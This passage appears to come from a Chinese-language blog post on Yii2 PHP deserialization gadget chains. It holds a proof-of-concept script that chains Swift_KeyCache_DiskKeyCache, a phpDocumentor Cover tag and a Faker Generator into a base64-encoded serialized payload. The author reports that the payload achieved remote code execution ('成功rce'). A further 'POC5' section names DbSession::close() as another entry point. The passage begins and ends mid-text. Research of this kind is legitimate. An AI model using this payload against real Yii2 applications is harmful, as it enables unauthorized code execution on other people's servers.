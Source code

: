 ```php
        }
    }
}

namespace phpDocumentor\Reflection\DocBlock\Tags{
    use Faker\Generator;
    class Cover{
        public function __construct(){
            $this->description=new Generator;
        }
    }
}


namespace{
    use phpDocumentor\Reflection\DocBlock\Tags\Cover;

    class Swift_KeyCache_DiskKeyCache{
        private $path;
        private $keys = [];
        public function __construct(){
            $this->keys=array('aaa'=>'bbb');
            $this->path=new Cover();
        }

    }

    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache));

}

?>
```
成功rce

![在这里插入图片描述](https://img-blog.csdnimg.cn/c954c1761dfd41dda0a45e36fe243261.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这些也是可以的，很多很多

![在这里插入图片描述](https://img-blog.csdnimg.cn/01519462fede48aaa9a3a80abc1c9398.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/6339b5ade20042a1b430e0ae498b056d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/737d9cb1758140558d143c7d0df88b94.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/88475e02073d4e049af4ac58aa8b621f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

# POC5
除了刚刚的__call方法，其实还有一个思路，就是直接去找能利用的close()方法
在这个文件里面找到能利用的点
```
/vendor/yiisoft/yii2/web/DbSession.php
```
```php
    public function close()
    {
        if ($this->getIsActive()) {
            // prepare writeCallback fields before session closes
            $this->fields = $this->composeFields();
            YII_DEBUG ? session_write_close() : @session_write_close();
        }
    }
```